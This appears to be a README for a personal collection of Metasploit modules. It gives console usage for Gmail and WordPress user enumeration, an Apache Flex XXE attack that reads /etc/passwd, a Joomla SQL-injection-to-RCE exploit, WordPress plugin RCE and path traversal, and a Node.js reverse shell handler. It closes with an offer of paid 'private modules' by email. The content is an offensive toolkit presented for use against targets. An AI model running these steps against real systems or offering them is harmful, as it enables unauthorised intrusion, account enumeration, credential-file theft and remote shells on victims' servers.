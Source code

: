 # Modules MSF. 

Some modules that I created for fun. =]

##### gmail_checker.rb
Enumerate user of gmail. 

````
msf> use auxiliary/gather/gmail_checker
msf> set check_email email_target@gmail.com
msf> run
. 
. 
.
````
##### Wordpress Enumeration Users 
Enumerate adminnistrations users. 

````
msf> use auxiliary/gather/wordpress_enumerating_username
msf> set rhost <target>
msf> exploit 
.
.
.
````

##### wp_drive_rce
RCE in Google Drive plugin for wordpress .

##### wp_with_pritz
Path Transversal WP with Spritz for wordpress .

##### apacheflex_xxe
XXE Injection in Apache Flex 

````
msf> use auxiliary/http/apacheflex_xxe
msf> set rhost <target>
msf> set rport <target>
msf> set file  </etc/passwd>
msf> exploit 
.
.
.
`````


##### joomla_comfields_sqli_rce
SQL Injection in Joomla 

`````
msf> use exploits/unix/webapp>joomla_comfields_sqli_rce
msf> set rhost <target>
msf> set rport <target>
msf> exploit 
.
.
.
`````


##### nodejs_reverseshell
Reverse TCP using Node JS

`````
msf> use exploits/multi/handler
msf> set payload cmd/unix/reverse_nodejs
msf> set rhost <ip>
msf> set rport <port>
msf> exploit

`````




###### Obs: 
I do private jobs (private modules . . .), if you are interesting send me an e-mail at: dctoralves@protonmail.ch
